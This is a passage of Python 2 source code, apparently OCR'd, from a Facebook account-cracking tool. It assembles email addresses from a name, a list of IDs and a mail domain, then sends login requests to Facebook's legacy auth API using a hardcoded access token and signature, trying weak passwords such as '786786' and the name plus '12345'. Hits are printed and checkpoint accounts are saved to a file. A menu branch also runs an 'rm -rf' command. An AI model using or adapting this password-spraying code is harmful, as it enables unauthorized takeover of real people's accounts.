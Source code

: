 	elif chb =="4":
	    os.system("rm -rf ....")
	    print
	    psb(" Logout successfully")
	elif chb =="0":
		exb()
	else:
		print "[!] Fill in correctly"
		action()


def crack_action():
	bch = ""
	if bch =="":
		os.system('clear')
		print logo
		try:
			idlist = (".txt")
			kn=raw_input(" 1st Name Without Space : ")
			k=raw_input(" Username Without Digits : ")
			c=raw_input(" Mail Domain : ")
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '[!] Error 404, please try again'
			raw_input('\n[ Press Enter To Go Back ]')
			menu()
	elif bch =="0":
		menu()
	else:
		print "[!] Fill in correctly"
		crack_action()
	xxx = str(len(id))
	psb ('[✓] Please wait, process is running ...')
	time.sleep(0.5)
	psb ('[!] To Stop Process Press CTRL Then Press z')
	time.sleep(0.5)
	print 50*"-"
	print
	
			
	def main(arg):
		global cpb,oks
		user = k+arg+c
		try:
			pass1="786786"
			data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			q = json.loads(data.text)
			if '407' in q['error_msg']:
				print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass1
				oks.append(user+pass1)
			else:
				if '405' in q["error_msg"]:
					print '[Checkpoint] ' + user + ' | ' + pass1
					cps = open("save/checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = kn+'12345'
					data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')